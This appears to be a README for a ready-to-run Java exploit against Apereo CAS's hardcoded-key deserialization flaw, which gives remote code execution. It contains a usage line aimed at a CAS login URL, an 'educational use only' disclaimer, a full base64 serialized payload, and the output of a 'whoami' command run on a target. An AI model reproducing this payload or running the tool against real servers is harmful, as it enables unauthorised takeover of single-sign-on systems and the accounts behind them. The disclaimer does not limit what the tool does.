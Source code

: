 
CAS 硬编码 远程代码执行漏洞

使用方式

java -jar cas-0.0.1-all.jar  http://localhost:8080/cas-server/login

-----------------------cas检测工具---------------------------------
-----------本软件仅供学习交流,如作他用所承受的法律责任一概与作者无关---------
**             **
* *               * *
*  *     *  *
*   *   *   *
*        * *    *
*  *  *  *  *
*               *
*           *
*           *
---------use: jar -jar cas-0.0.1-all.jar http://xxxx.xxxx-------
-------------------create by maobugs----------------------------
执行命令whoami...
payload is: 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
BcnkUX4PLBLWolJgD30=
执行结果是：esg\wuxiong


